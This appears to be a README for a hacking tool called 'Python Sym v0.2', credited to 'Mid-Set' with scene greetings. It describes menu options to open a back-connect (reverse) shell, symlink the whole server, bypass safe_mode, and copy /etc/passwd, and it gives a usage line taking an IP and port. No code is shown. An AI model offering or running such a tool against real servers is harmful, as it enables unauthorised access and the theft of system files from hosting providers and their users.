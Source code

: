 # Python-Sym-v0.2
Python Sym v0.2
Symlink & BackConnect

------------------------------------------------------------------------------------------------

    1 - BackConnect (create a back connect file)
    
    2-  Create Symlink to whole server
    
    3-  Create Symlink to a file

    PS : * if you used choices 2 or 3 we will bypass safe_mode in server
         * a passwd.txt file will created cointain /etc/passwd file
         * you will find files in "sym"

    if you are using this Script from the web, you can BackConnect by typing
    python SymConnect.py [ip] [port]
    example: python SymConnect 192.168.0.0 77
    
------------------------------------------------------------------------------------------------


GreeTz : HsN,Hiso,Fat7,vir,Marco,oudouz,D3v.
All Rights Reserved @ Mid-Set
C0ntact : http://fb.com/midset00
